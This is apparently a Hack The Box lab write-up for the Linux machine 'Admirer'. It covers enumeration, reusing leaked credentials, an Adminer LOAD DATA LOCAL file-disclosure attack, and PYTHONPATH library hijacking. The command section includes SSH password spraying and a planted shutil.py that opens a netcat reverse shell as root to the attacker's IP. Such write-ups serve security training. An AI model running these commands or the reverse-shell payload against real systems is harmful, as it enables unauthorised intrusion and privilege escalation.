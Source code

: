 <p align="center">
  <img src="assets/Admirer.jpg" alt='HTB_admirer'>
</p>


### Description:

- Enumerating the web reveals a 403 directory
- Enumerating the 403 directory gives us a contacts and credentials
- Logging into ftp with the obtained credentials
- Downloading the available tar.gz file
- A password is enumerated in the index.php file
- utility-scripts is a 403 dir, which has adminer.php in it
- Exploiting adminer's `LOAD DATA LOCAL` vulnerablity, a new pass phrase is obtained in index.php
- SSH into the box as waldo from the newly obtained password
- In the opt directory, admin_tasks.sh runs as sudo
- Python Path hijacking gives reverse shell as `root`

### Difficulty:

`Linux - Easy`


#### Enumeration

- Open ports `21, 22, 80`
- Ports `vsftpd, ssh and http` are open
- Anonymous login is `not` allowed in port 21
- `robots.txt` found in the web which blocks `admin-dir` from being spidered
- admin-dir returns a `403` which means, enumerating files in that folder reveals `contacts` and `credentials` text files
- Credentials and Contacts files reveals some `usernames, emails and passwords`
- Bruteforcing `ssh` returns nothing, the user and password from the credentials.txt for the `ftpuser` worked with ftp login
- FTP lists two files, `html.tar.gz` and `dump.sql`
- While looking at the contents of the html.tar.gz, the `admin-tasks.php` in the `utility-scripts` dir
- The `admin_tasks.sh` is enumerated which gets options from the user and exectes in bash via `shell_exec()`
- This `admin-tasks.php` doesnt do anything due to whitelist
- Accessing the `utility-scripts` in the browser gives a `403`, forbidden so enumerating files in the utility-scripts reveals `adminer.php`	
- In the adminer.php try to login with the available credentials.
- Login fails and looking for open exploits, found [here](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)
- Create a database {DeleteMeWhenDone}, create a user{ippsec'@'10.10.10.187} in the database with the password {DontExploitMePls}
- Grant all the users to the created user


#### Obtaining Shell
##### Password from index.php from /var/www/html

- Login in the `adminer.php` with the server `10.10.14.2`, which is the IP of the hacking machine and username `ippsec` and password `DontExploitMePls` and the database `DeleteMeWhenDone`
- Reading through the exploit for the adminer.php, the `LOAD DATA LOCAL` command in the sql commands is vulnerable
- Load the `index.html` file for testing, accessing `/etc/passwd` is not possible since `open_basedir` is set to /var/www/html in the `info.php`
- With successful execution the requested file will be loaded in the specified table, access the contents from the table
- With the loaded index.php form the sql, a different credential is obtained for waldo.
- SSH into waldo with the newly obtained password
- user.txt is obtained


#### Privilege Escalation

- In the `/var/scripts/`, 2 scripts admin-tasks and backup.py is available
- backup.py uses the `make_archive()` from the  `shutil` library 
- Hijacking the python library leads us to root the machine
- Create a library file with vulnerable code and set the `PYTHONPATH` to execute the malicious library
- Executing the admin_tasks.sh with the /dev/shm path gives a reverse shell as root
- root.txt obtained

#### COMMANDS:

```bash
# password spraying on ssh with crackmapexec
crackmapexec ssh 10.10.10.187 -u user_file -p pass_file
```

```bash
# search for the files that contains the phrase password in it
grep -ir password
```

```bash
# creating a mysql server to connect back
# switch to mysql in attacking machine
sudo mysql -u root 

# create a database to store tables and values
create Database DeleteMeWhenDone; # database name = DeleteMeWhenDone

#createa user in the database with the password
create user 'ippsec'@'10.10.10.187' IDENTIFIED BY 'DontExploitMePls'; # creating a user on the 10.10.10.187(on the attack machine) with the password DontExploitMePls

# Granting permissions to the database
GRANT ALL on DeleteMeWhenDone.* TO 'ippsec'@'10.10.10.187'; #only allow ippsec@10.10.10.187 to connect to the mysql database
FLUSH PRIVILEDGES; # refresh Privileges
```

```bash
# socat service forward
# forward everything that occurs on 10.10.12.4:3006 to 127.0.0.1
# listen on port 3006, from the address 10.10.14.2 and forward it to 127.0.0.1
socat TCP-LISTEN:3306,fork,bind=10.10.14.2 TCP:127.0.0.1:3306
``` 

```bash 
# create a new table in the database
sudo mysql -u root

# select the database which needs to be modified
use DeleteMeWhenDone;

# create a table
create table PleaseSubscribe (OUTPUT TEXT(4096));
```

```bash
# adminer.php exploit LOAD DATA LOCAL
# /etc/hosts access shows error since the open_basedir in the info.php is set only to /var/www/html 
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE PleaseSubscribe FIELDS TERMINATED BY "\n"

# after the file is loaded access it from your kali machine's sql
sudo mysql -u root

# select the database
use DeleteMeWhenDone;

# select the table to view its contents
select * from PleaseSubscribe;
```

```python
# Hijacking the library, create a file named shutil.py with the following contents
import os

def make_archive(a,b,c):
	os.system("nc -c bash 10.10.14.2 9001")

# set PYTHONPATH to where the malicious python script is. Temporariry tell the following program to where to look for library items
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```